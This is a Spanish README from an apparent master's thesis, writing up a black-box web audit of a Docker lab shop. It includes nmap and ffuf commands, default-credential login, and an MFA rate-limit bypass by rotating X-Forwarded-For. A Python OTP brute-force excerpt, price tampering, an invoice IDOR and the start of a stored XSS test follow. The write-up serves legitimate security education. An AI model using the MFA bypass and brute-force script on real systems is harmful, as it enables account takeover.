<div align="center">

# 🛒 BigShop — Auditoría de Seguridad Web

### Trabajo de Fin de Máster · Máster en Ciberseguridad y Hacking Ético


</div>

---

## 📋 Resumen

Este repositorio documenta una auditoría de seguridad de caja negra realizada, en el marco de un TFM, sobre **BigShop**, un laboratorio Docker con **4 aplicaciones web** desplegadas sobre un mismo host. Adoptamos el rol de auditores externos contratados por la empresa cliente ficticia *BigShop*, con la única información de partida de una dirección IP.

Este documento recoge el **writeup narrativo** del proceso seguido — paso a paso, con capturas y comandos reales — para las aplicaciones auditadas hasta ahora. El **informe técnico formal** (con CVSS, CWE, remediación por hallazgo) está en [`docs/informe-BigShop.pdf`](docs/informe-BigShop.pdf), y un **writeup visual independiente por cada hallazgo** está en [`writeups/`](writeups/).

> 🚧 **Estado:** **2 de 4 aplicaciones auditadas por completo** — **PenguinWave** (puerto 8080, 10 hallazgos) y **PixelForge** (puerto 10000, 7 hallazgos, con dos rutas independientes hasta ejecución remota de código y dos rutas independientes adicionales de toma de cuenta administradora). La tercera, **WordPress** (puerto 80), está **en curso** (2 hallazgos confirmados). La aplicación restante (puerto 9090, StreamWave) sigue pendiente.

---

## 🎯 Objetivo y alcance

| | |
|---|---|
| **Objetivo** | `172.17.0.2` |
| **Dentro de alcance** | Puertos 80, 8080, 9090, 10000 |
| **Fuera de alcance** | Cualquier sistema fuera del laboratorio Docker |
| **Tipo de auditoría** | Caja negra (black-box) |
| **Herramientas** | `nmap`, `ffuf` + SecLists, Burp Suite, DevTools, WPScan, Python (scripts propios), `curl`, cliente MySQL, Apache Benchmark |

## 🗂️ Índice

- [🔍 Fase 1 — Reconocimiento](#-fase-1--reconocimiento)
- [🏄 PenguinWave (puerto 8080)](#-penguinwave-puerto-8080)
  - [Descubrimiento de contenido](#descubrimiento-de-contenido)
  - [Cronología de la auditoría](#cronología-de-la-auditoría)
- [🎮 PixelForge (puerto 10000)](#-pixelforge-puerto-10000)
  - [Descubrimiento de contenido](#descubrimiento-de-contenido-1)
  - [Cronología de la auditoría](#cronología-de-la-auditoría-1)
- [🌐 WordPress (puerto 80)](#-wordpress-puerto-80)
  - [Reconocimiento](#reconocimiento)
  - [Cronología de la auditoría](#cronología-de-la-auditoría-2)
- [🏆 Hallazgos confirmados](#-hallazgos-confirmados)
- [📝 Writeups individuales por hallazgo](#-writeups-individuales-por-hallazgo)
- [🧰 Herramientas y scripts propios](#-herramientas-y-scripts-propios)
- [📄 Informe completo (PDF)](#-informe-completo)

---

## 🔍 Fase 1 — Reconocimiento

Sin más dato que la IP del cliente, el primer paso es identificar qué expone de cara a la red.

**Escaneo de puertos (rápido):**

```bash
sudo nmap 172.17.0.2
```



Cuatro puertos TCP abiertos, los cuatro HTTP — encaja con las 4 aplicaciones del laboratorio.

**Escaneo completo con detección de versión:**

```bash
sudo nmap -p- -sV -sC -T4 172.17.0.2
```



| Puerto | App | Stack |
|---|---|---|
| **80** | **WordPress** (vhost `bigshop.local`) | Apache 2.4.67 + WordPress 7.1.4 |
| **8080** | **PenguinWave** | Apache 2.4.67 + PHP |
| 9090 | StreamWave (*pendiente*) | Node.js (Express) |
| **10000** | **PixelForge** | Apache 2.4.67 + PHP |

Empezamos por el **8080 — PenguinWave**, una (ficticia) escuela de surf con pingüinos.



---

## 🏄 PenguinWave (puerto 8080)

### Descubrimiento de contenido

Antes de interactuar a mano con la app, lanzamos `ffuf` para mapear rutas que no aparecen en el menú de navegación:

```bash
ffuf -u http://172.17.0.2:8080/FUZZ \
     -w SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt \
     -e .php,.html,.bak,.zip,.txt,.old,.json -t 50
```



Salieron **8 rutas que no estaban enlazadas en el menú visible**: `login.php`, `register.php`, `dashboard.php`, `mfa.php`, `invoice.php`, `storage/`, `api/`, `inc/`. Buena lección: **fuzzear antes de clicar** encuentra superficie que a simple vista no se ve.

### Cronología de la auditoría

<details open>
<summary><b>1️⃣ Cookie de sesión sin atributos de seguridad</b></summary>

<br>

Revisando el `Storage` del navegador, la cookie `PHPSESSID` no tenía `HttpOnly`, `Secure` ni `SameSite`:



Esto por sí solo es una debilidad "latente" — cobra sentido real más adelante, cuando encontramos los XSS.

</details>

<details>
<summary><b>2️⃣ Credenciales por defecto: admin / admin</b></summary>

<br>

Entre las rutas descubiertas por `ffuf` estaba `login.php`. Probamos lo más obvio:



Login aceptado — pero la app pide un segundo factor:



Capturamos la petición del MFA en Burp para tenerla lista:



```
POST /mfa.php HTTP/1.1
Cookie: PHPSESSID=<session>

otp=1111
```

4 dígitos, 5 intentos permitidos. El reto: ¿se puede evadir ese límite?

</details>

<details>
<summary><b>3️⃣ El límite de intentos del MFA es evadible por cabecera</b></summary>

<br>

Tras 5 intentos fallidos, la app bloquea con `429 Too Many Requests`:



Probamos si el contador se lleva por IP (cabecera `X-Forwarded-For`, controlable por el cliente). Con `X-Forwarded-For: 1.1.1.1`, el intento nº6 se bloquea:



Cambiando **solo** la cabecera a `X-Forwarded-For: 2.2.2.2`, el mismo tipo de petición vuelve a procesarse como si fuera la primera vez:



**Bypass confirmado.** El rate-limit del MFA no sirve de nada si rotas esa cabecera.

</details>

<details>
<summary><b>4️⃣ Fuerza bruta del OTP con script propio</b></summary>

<br>

Burp Community ralentiza el Intruder a propósito. En vez de esperar horas, un script en Python con hilos concurrentes, rotando `X-Forwarded-For` en cada petición:

```python
# scripts/mfa_bruteforce.py (resumen)
for code in range(10000):
    otp = f"{code:04d}"
    headers["X-Forwarded-For"] = fake_ip(code)
    r = requests.post(TARGET, data=f"otp={otp}", headers=headers,
                       allow_redirects=False)
    if r.status_code == 302 and "dashboard.php" in r.headers.get("Location", ""):
        print("Código encontrado:", otp)
```



El código correcto (`3593`, el que redirige a `/dashboard.php`) salió tras ~3.600 intentos — segundos con hilos reales, frente a las horas que habría tardado el Intruder de Burp Community.

</details>

<details>
<summary><b>5️⃣ 🏆 Acceso completo a la cuenta administradora</b></summary>

<br>

Con el OTP correcto, acceso total al panel de administración:



Badge **"MFA VERIFIED"**, gestión completa de las 9 cuentas de la plataforma (nombre, email, rol, borrado), y contadores del negocio. **Credenciales triviales + MFA evadible = compromiso administrativo total**, sin phishing ni ingeniería social.

</details>

<details>
<summary><b>6️⃣ Manipulación de precio: 90% de descuento en todo el carrito</b></summary>

<br>

El catálogo anuncia "primera unidad al 90% de descuento". Probamos a subir la cantidad:



100 unidades, **todas** con el 90% de descuento ($950 en vez de $9.414,50):



Y no se queda ahí: añadiendo un **segundo producto distinto** al mismo carrito, también se descuenta entero:



Carrito final: **$989,50** en vez de los **$9.738,40** reales. Sin ninguna técnica avanzada — solo cambiar un número en un formulario.

</details>

<details>
<summary><b>7️⃣ IDOR en las facturas: factura del admin visible con el ID cambiado</b></summary>

<br>

`invoice.php?id=N` no valida que la factura pertenezca al usuario logueado. Con la cuenta de pruebas, bajando el `id`:



`Bill to: Site Administrator, admin@wavelength.surf, @admin` — la factura de **otro usuario**, viendo su email real. Enumerando `id=1` a `id=11` confirmamos el rango completo: solo una es propia, las otras 10 son de otras cuentas.

</details>

<details>
<summary><b>8️⃣ XSS almacenado en reviews → robo de sesión</b></summary>

<br>

El campo de reviews no sanea HTML. Prueba con `<u>hola</u>`:

